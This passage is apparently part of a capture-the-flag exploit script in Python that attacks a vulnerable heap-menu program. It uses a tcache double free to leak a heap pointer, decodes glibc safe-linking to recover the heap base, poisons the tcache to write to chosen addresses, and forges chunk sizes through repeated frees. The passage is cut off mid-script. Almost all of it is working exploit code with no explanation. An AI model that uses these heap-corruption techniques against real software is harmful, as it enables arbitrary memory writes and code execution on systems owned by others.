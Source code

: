 ```python

    return dec

def safe_link(pos, ptr):
    return (pos >> 12) ^ ptr

def add(idx, data):
    cmd(1)
    p.sendline(str(idx).encode())
    p.sendline(data)

def delete(idx):
    cmd(2)
    p.sendline(str(idx).encode())

def overwrite_data(addr, data, dummyIdx, idx):
    global heap_base
    add(0, p64(0)*2)
    delete(0)
    add(0, p64(0)*2)
    delete(0)
    add(0, p64(safe_link(heap_base+0x2a0, addr)))
    add(dummyIdx, b'dummy')
    add(idx, data)

add(0, "double free")

add(1, b'victim')

for i in range(2,6):
    add(i, b'data')

add(6, b'guard chunk') # to avoid consolidating with top chunk

delete(0)

add(0, p64(0) * 2) #overwrite tcache_entry.next & key

delete(0)#double free

cmd(3)

p.recvuntil(b'->')
ptr = u64(p.recvline()[:-1].ljust(8, b'\x00'))

print(hex(ptr))
print(hex(decrypt_safe_linking(ptr)))
heap_base = decrypt_safe_linking(ptr) - 0x2a0
print(hex(heap_base))

add(0, p64(safe_link(heap_base + 0x2a0, heap_base + 0x2a0 + 0x10)))

add(7, b'dummy')

add(8, p64(0) + p64(0xa1))

# octuple free

delete(1)
for i in range(7):
    add(1, b'A'*0xf)
    delete(1)

```